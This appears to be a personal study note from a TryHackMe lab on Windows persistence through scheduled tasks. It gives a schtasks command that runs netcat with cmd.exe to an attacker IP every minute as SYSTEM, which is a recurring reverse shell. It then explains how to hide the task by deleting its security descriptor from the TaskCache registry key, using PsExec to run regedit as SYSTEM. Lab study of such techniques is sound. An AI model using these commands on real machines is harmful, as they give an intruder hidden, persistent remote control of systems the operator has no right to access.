 # Windows Persistence - Abusing Scheduled Tasks

## Task scheduler

Create a scheduled task:
```powershell
 schtasks /create /sc minute /mo 1 /tn <taskname> /tr "c:\tools\nc64 -e cmd.exe $attacker_ip $port" /ru SYSTEM
```
Make it invisible by registery editing, using similar tool as [[Sysinternals-Psexec]]. The security descriptors of all scheduled tasks are stored in:
- `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\`
To hide the task delete the `SD` value 

```powershell
PsExec64.exe -s -i regedit
```

## References

[THM Persistence Room](https://tryhackme.com/room/windowslocalpersistence)
